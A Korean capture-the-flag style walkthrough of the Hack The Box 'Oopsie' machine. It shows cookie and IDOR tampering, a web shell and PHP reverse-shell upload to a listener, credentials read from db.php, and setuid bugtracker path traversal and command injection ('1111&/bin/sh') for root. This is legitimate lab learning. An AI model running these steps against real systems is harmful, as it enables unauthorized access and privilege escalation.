






nmap scan 결과를 보면 아래와 같이 ssh와 http가 활성화 되어있음을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sCV 10.129.112.235 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 20:39 EST
Nmap scan report for 10.129.112.235
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

웹 페이지 방문 시 아래와 같이 일반 페이지가 나타난다. 페이지 소스룰 통해 login과 관련된 페이지 경로를 확인할 수 있다.

``` bash
<script src="/cdn-cgi/login/script.js"></script>
<script src="/js/index.js"></script>
```

/cdn-cgi/login/ 경로로 접근 시 아래와 같이 로그인 화면이 출력된다. 별도의 계정 정보가 없으므로 게스트로 로그인하여 다른 정보를 수집해보자.

게스트 로그인 후 페이지 정보를 보다가, 쿠키 값에 role이 있는 것을 확인하여, 해당 값을 admin으로 변조해보았으나 별 차이가 없다. 아마 user 값까지 같이 변경이 필요한 것 같다.


사이트의 기능을 확인하는 도중 url에 id 값이 계속 2인 것이 보였고, 해당 값을 1로 변경해보니 admin에 대한 user 값 을 획득할 수 있다.


쿠키 값을 role:admin, user:34322로 변조 후 관리자 계정으로만 접근이 가능했던 Uploads에 성공적으로 접근이 된다. 브랜딩 이미지를 업로드하는 페이지로 보인다.


파일을 업로드하였고, 정상적으로 업로드 되었다는 문구를 확인할 수 있다. 그렇다면 어디에 업로드 되는지를 찾아봐야 할 것 같다.


업로드 된 파일 경로는 gobuster를 통해 '/uploads'라는 것을 알 수 있다[(wordlist)](https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt).
``` bash
┌──(root㉿kali)-[/home/user]
└─# gobuster dir -u http://10.129.111.20 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.111.20
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://10.129.111.20/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.111.20/js/]
/images               (Status: 301) [Size: 315] [--> http://10.129.111.20/images/]
/index.php            (Status: 200) [Size: 10932]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.111.20/fonts/]
/.htaccess            (Status: 403) [Size: 278]
/themes               (Status: 301) [Size: 315] [--> http://10.129.111.20/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.111.20/uploads/]
```

이제 웹쉘을 업로드하여 테스트해보자. cmd.php를 업로그 후 내용을 출력한 것이다.



nc 업로드하여 리버스쉘을 맺으려 했지만, 헹 걸린 상태에서 동작하지 않아 [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)을 받아서 업로드하였다. 각 ip port를 수정 후 실행하면 아래와 같이 쉘 연결에 성공한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nc -lvp 443
listening on [any] 443 ...
10.129.208.241: inverse host lookup failed: Unknown host
connect to [10.10.14.175] from (UNKNOWN) [10.129.208.241] 56738
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:30:45 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

동작 중인 프로세스를 보면 mysql이 있는 것을 확인할 수 있다. 관련 정보를 찾아보면 어떨까 싶다.
``` bash
mysql     1417     1  0 03:48 ?        00:00:01 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
```

/etc/mysql 하위 경로에는 별 다른 중요 정보가 존재하지 않기에, 웹 서비스 경로에서 주요 파일이 있는지 찾아보고자 했다. 아래와 같이 index.php를 기준으로 서칭했으며 두 경로가 나온다. 
``` bash
$ find / -name 'index.php'
/var/www/html/index.php
/var/www/html/cdn-cgi/login/index.php
```

/cdn-cgi/login 경로를 보면 db 접속 정보로 추정되는 값을 획득 할 수 있다.
``` bash
$ ls /var/www/html/cdn-cgi/login
admin.php
db.php
index.php
script.js

$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

su 명령어를 통해 획득한 계정으로 변경 시도 시 'su: must be run from a terminal' 와 같은 에러를 만나게 된다. 해당 오류의 경우 아래와 같이 python을 통해 해결 가능하다. 찾아본 결과 su 명령어는 터미널에서만 가능하기에 아래와 같이 python으로 연결해주어야 한다.
``` bash
$ su robert
su: must be run from a terminal

$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$
```

획득한 계정 정보를 통해 mysql에 접속해보자. 우선 netstat로 구동 중인 port를 확인하고 로그인하면 된다.
``` bash
robert@oopsie:/$ netstat -nap | grep sql
netstat -nap | grep sql
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     22247    -                    /var/run/mysqld/mysqld.sock

robert@oopsie:/$ mysql -u robert -p -h localhost -P 22247
mysql -u robert -p -h localhost -P 22247
Enter password: M3g4C0rpUs3r!

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 54
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

db 접속 후 획득 가능한 정보는 아래와 같다. 중요 정보는 없는 듯하다.
``` bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| garage             |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use garage
use garage
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_garage |
+------------------+
| accounts         |
| branding         |
| clients          |
+------------------+
3 rows in set (0.00 sec)

mysql> select * from accounts;
+------+--------+-------------+-------------------------+
| id   | access | name        | email                   |
+------+--------+-------------+-------------------------+
|   13 |  57633 | Peter       | peter@qpic.co.uk        |
|   23 |  28832 | Rafol       | tom@rafol.co.uk         |
|    4 |   8832 | john        | john@tafcz.co.uk        |
|   30 |  86575 | super admin | superadmin@megacorp.com |
|    1 |  34322 | admin       | admin@megacorp.com      |
|    2 |   2233 | guest       | guest@megacorp.com      |
+------+--------+-------------+-------------------------+
6 rows in set (0.00 sec)

mysql> select * from branding;
+------+---------+----------+
| id   | model   | price    |
+------+---------+----------+
|    1 | MC-1023 | $100,240 |
|   10 | MC-1123 | $110,240 |
|   20 | MC-2123 | $110,340 |
|    2 | MC-2124 | $100,430 |
+------+---------+----------+
4 rows in set (0.00 sec)

mysql> select * from clients;
+------+--------+-------------------+
| id   | name   | email             |
+------+--------+-------------------+
|    1 | Tafcz  | john@tafcz.co.uk  |
|   13 | Rafol  | tom@rafol.co.uk   |
|   23 | Qpic   | peter@qpic.co.uk  |
|    2 | client | client@client.htb |
+------+--------+-------------------+
4 rows in set (0.00 sec
```

문제 풀이중 /etc/group 관련하여 bugtracker 그룹에 robert가 속해 있는 것을 알 수 있다.
``` bash
$ cat /etc/group
...
robert:x:1000:lxd
ssl-cert:x:113:
mysql:x:114:
bugtracker:x:1001:robert
netdev:x:115:
```
bugtrakcer 위치 확인 후 권한을 보면 setuid가 설정되어 있다.
``` bash
robert@oopsie:/$ locate bugtracker
locate bugtracker
/usr/bin/bugtracker
robert@oopsie:/$ ls -al /usr/bin/bugtracker
ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

bugtracker를 실행해보니 '/root/reports' 경로의 지정한 파일을 찾는 듯하다.
``` bash
robert@oopsie:/$ bugtracker -h
bugtracker -h

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ls
ls
---------------

cat: /root/reports/ls: No such file or directory

robert@oopsie:/$ ls /root/reports
```

bugtracker로 ../../../와 같이 상위 경로로 올라가서 파일을 지정할 수 있다. 내가 원하는 방식은 파일을 지정해서 root 권한의 쉘을 획득 하는 것이였다. 아래와 같이 '/bin/sh'를 통해 whoami 실행을 확인하고 싶어 /home/robert/who 라는 파일로 저장하였고, bugtracker를 통해 지정하였다.

``` bash
robert@oopsie:/$  echo "/bin/sh -c 'whoami'" >  /home/robert/who

robert@oopsie:/$ bugtracker
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../home/robert/who
../../../home/robert/who
---------------

/bin/sh -c 'whoami'
```

예상과 다르게 내가 입력한 내용인 `/bin/sh -c 'whoami'`가 평문으로 출력되었다. 여기서부터는 어떻게 해야할지 몰라 공략을 참고하였다. 


내가 입력한 문자열일 출력되는 것은 bugtrakcer의 기능 중 'cat'과 유사한 기능을 하는 부분이 있어 그런 것이였다. 즉 setuid 권한으로 cat을 실행 할 수 있는 것과 같다. 보통 root의 flag 파일은 root.txt이기에 출력을 시도해보았다. 성공적으로 정답을 획득 할 수 있다.
``` bash
robert@oopsie:/$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../root/root.txt
../../../root/root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```

쉘을 연결하는 방법은 없을까 찾아보던 중 아래 블로그를 통해 방법을 확인하였다. 
> https://velog.io/@jjs9366/HTB-Oopsie

### Root Shell 획득 - 실패
해당 블로그 글의 후미에 기술된 바와 같이 진행하였으나, 1년 동안 문제 파일이 바뀐 것인지 동일한 방식으로는 되지 않았다(내가 뭔가 잘못 설정 했을 수도 있음). 그래도 이 과정을 기록해놓고자 메모 한다.


우선 bugtracker 구동 시 'cat' 명령어가 실행된다는 것을 기억해야 한다. 해당 cat 명령어는 로컬에 존재하니 어느 경로에 있는지 확인해보자. 아래와 같이 /bin/cat 에 위치해있고, 경로를 탐색할 때 주로 사용되는 $PATH 변수를 보면 후순위에 존재하고 있음을 알 수 있다.
``` bash
robert@oopsie:/$ find /bin -name 'cat'
/bin/cat

robert@oopsie:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

이제 /bin/bash 파일을 /tmp/cat 이란 이름으로 복사하여 저장 후, 경로를 가장 먼저 찾을 수 있도록 export를 통해 추가하였다. 이후 bugtracker를 실행하면 될줄 알았으나, 제대로 동작하지 않아 여기서부터 문제를 해결하기 위해 다양한 조사를 했다.
``` bash
robert@oopsie:/$ cp /bin/bash /tmp/cat
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ls
ls
---------------

cat: /root/reports/ls: No such file or directory
```

### Root Shell 획득 - 성공
우선 strace로 확인해보니 정상적으로 /tmp/cat을 갖고 온다. 하지만 참고한 블로그 글과는 다르게 shell에 붙지 않는다.
``` bash
[pid  1977] stat("/tmp/cat", {st_mode=S_IFREG|0777, st_size=121432, ...}) = 0
[pid  1977] clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7fc253f8a810) = 1978
strace: Process 1978 attached
[pid  1977] wait4(-1,  <unfinished ...>
[pid  1978] execve("/tmp/cat", ["cat", "/root/reports/../../../../tmp/te"...], 0x564c4b436ba8 /* 24 vars */) = 0
```

위의 내용 중 /tmp/cat -> /bin/sh 로 치환해서 보면 조금 원인을 알 수 있다. sh 파일로 대체하였더라도 결국 바로 뒤에 다시 `cat` 명령어를 사용하므로 파일을 대체해도 소용이 없는 듯하였다.
``` bash
execve("/bin/sh", ["cat", "/root/reports/../../../../tmp/te"...], 0x564c4b436ba8 /* 24 vars */) = 0
```

그러던 중 문득 어차피 `("/bin/sh", ["cat", "/root/r....` 이 구간 자체가 root 권한으로 실행되고 있으니, cat이 아닌 다른 명령어를 넣어주면 되지 않을까 생각 들었다. 그리하여 `&`을 통해 명령어를 이어 붙여보았다.
``` bash
robert@oopsie:/$ bugtracker
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1111&/bin/sh
1111&/bin/sh
---------------

cat: /root/reports/1111: No such file or directory
# 

# whoami
root
```

BOOM! root shell을 획득하고자 할 때 굳이 /tmp/cat 으로 복사하지 않아도 되는 것이였다...!! 이 부분을 해결해보고자 거의 3시간을 넘게 할애한 것 같다. `strace -f` 명령어를 통해 어떻게 동작하는지 자세히 본다는 것이 크게 도움 되었다. 또한 이런 binary 파일을 ida로 직접 볼 생각도 못했었는데, [블로그 당사자](https://velog.io/@jjs9366/HTB-Oopsie)의 조언으로 처음 알게 되었다.


단순한 문제 풀기가 아닌 이렇게 찾아가는 과정이 있어 더욱 재미가 느껴진다.

### 참고 
suid가 설정된 파일을 찾는 방법은 아래와 같다.
``` bash
robert@oopsie:/$ find / -type f -perm -4000 2>/dev/null
...
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```